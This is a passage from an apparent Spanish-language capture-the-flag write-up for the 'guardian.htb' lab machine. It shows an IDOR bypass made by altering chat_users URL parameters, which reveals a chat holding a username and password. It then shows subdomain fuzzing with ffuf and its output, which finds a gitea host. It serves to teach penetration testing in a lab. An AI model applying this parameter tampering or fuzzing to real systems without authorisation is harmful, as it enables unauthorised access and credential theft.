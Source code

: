 ```
URL = http://portal.guardian.htb/student/chat.php?chat_users[0]=1&chat_users[1]=2
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-27 161729.png" alt=""><figcaption></figcaption></figure>

Vemos que hemos podido acceder a un chat gracias a ese `bypass` de numero atraves de la `URL` cosa que no se deberia de poder hacer, por lo que obtenemos una contraseña `DHsNnk3V503` y un nombre de usuario llamado `jamil.enockson`.

Sabemos que el usuario `jamil` tiene como id de usuario el `0` por lo que podemos ver en la `URL`, si nosotros siguiente esa logica formamos el nombre de usuario como estudiante que tendria que tener seria algo asi `GU0002023`, pero si lo probamos veremos que no nos funciona.

Como nos ha puesto que es un usuario de `gitea` vamos a probar a realizar un `fuzzing` a nivel de `subdominios` para ver si existiera alguno referente a `gitea`.

Antes nos descargamos un diccionario de `subdominios` de la siguiente pagina:

```shell
wget https://gist.githubusercontent.com/six2dez/a307a04a222fab5a57466c51e1569acf/raw
mv raw subdomains.txt
```

Ahora que tenemos el diccionario vamos hacer lo siguiente:

```shell
ffuf -c -w subdomains.txt -u http://guardian.htb -H "Host: FUZZ.guardian.htb" -fw 20
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://guardian.htb
 :: Wordlist         : FUZZ: /home/kali/Desktop/guardians/subdomains.txt
 :: Header           : Host: FUZZ.guardian.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 20
________________________________________________

portal                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 31ms]
gitea                   [Status: 200, Size: 13498, Words: 1049, Lines: 245, Duration: 36ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```
